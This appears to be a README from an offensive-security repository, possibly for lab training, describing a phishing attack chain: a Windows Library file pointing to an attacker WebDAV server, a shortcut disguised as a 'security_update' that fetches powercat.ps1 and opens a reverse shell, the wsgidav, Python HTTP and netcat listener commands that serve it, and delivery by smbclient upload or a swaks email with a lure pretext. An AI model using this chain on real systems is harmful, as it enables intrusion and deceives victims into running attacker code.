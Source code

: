 ## Creating Windows Library File

This file, once opened, will point the target machine to our WebDAV server (more on this later). In order to create this file we will execute either of the `winlib_gen` scripts included in this repo.

## Creating a Malicious Shortcut File

Then we will need to create a shortcut file (*this needs to be done on a Windows Machine*):

- On a Windows machine: *right click on the desktop and select new -> shortcut*.

- *Insert the powershell commands* that `winlib_gen` prints *in the location field*.

This command will *request and invoke `powercat.ps1` from an address where we will be hosting it and then connect to our listener with a reverse shell*.

- Name the shortcut file whatever name is appropriate for your context (example security_update).

## Serving the Files

- We will *transfer the shortcut file to a folder in Kali and host it using WebDAV*:

```bash
wsgidav --host 192.168.45.187 --port 80 --auth anonymous --root .
```

- We will start a *Python3 HTTP server and host powercat.ps1*:

```bash
python3 -m http.server
```

- We will *start a netcat listener to catch the shell*:

```bash
nc -nlvp 4444
```

## Sending the Library File

### SMB - smbclient

We can now transfer `config.Library-ms` via smbclient to the target share and hopefully some user will open the file:

```bash
smbclient //192.168.50.195/sharename -c 'put config.Library-ms' -U 'user%pass'
```

If a user opens the file, we will get a reverse shell.

### Email - swaks

We can send a malicious email using the command-line SMTP tool `swaks`.

- This repo contains a *body.txt file containing an example pretext to encourage the victim* to open the attached library file.

- Then we build our swaks command:

```bash
sudo swaks -t user@domain.com -t user@domain.com --from user@domain.com --attach @config.Library-ms --server {Mailserver IP} --body @body.txt --header "Subject: Announcement" --suppress-data -ap
Username: user
Password: password
```

After a few moments, our WebDAV and Python3 servers will receive requests and our listener will grab a shell.
